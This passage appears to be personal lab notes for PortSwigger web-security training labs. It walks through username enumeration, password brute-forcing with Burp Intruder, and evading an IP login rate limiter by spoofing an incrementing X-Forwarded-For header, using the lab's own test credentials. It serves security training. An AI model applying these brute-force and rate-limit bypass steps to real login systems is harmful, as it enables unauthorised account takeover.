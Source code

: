 ```bash
Go to: Columns -> 'Response received'
There should be a variation in the 'Response received' column and this will be the username(s)

Add in the new-found username
Adjust the payload to reflect the password position

username=adm&password=§password§

Go to: Options
Load 'passwords.txt' file //or// copy/paste from web-page
Start Attack
The "Length" column has a large variation and will be the password


```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506214107.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220506212121.png)

### Username enumeration via response timing
```bash

Make sure you properly enumerate. There is a login limiter. You will be locked out for 30 minutes per IP if not followed.
This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this users password, then access their account page.

-   Your credentials: `wiener:peter`
-   [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)


Intercept is on
Input uname/pword
Send this to repeater

username=name&password=password

HTTP/1.1 200 OK
"Invalid username or password."

Logging in with valid credentials - note the "302" response

username=wiener&password=peter

HTTP/1.1 302 Found

By adding in "X-Forwarded-For: 500" in the POST request in "the repeater" you can circumvent the ip rate limiter.
Increate the "500" to "501" and increment this number each time a request is sent.
Add to PST request:

X-Forwarded-For: 500

After testing a random input "200" then the correct credentials "302" increase the size of the password > 100
Note the delay
Send to intruder
Attack type: Pitchfork
A long password will be used while we fuzz the "X-Forwarded-For" and "username" 

X-Forwarded-For: §0§
```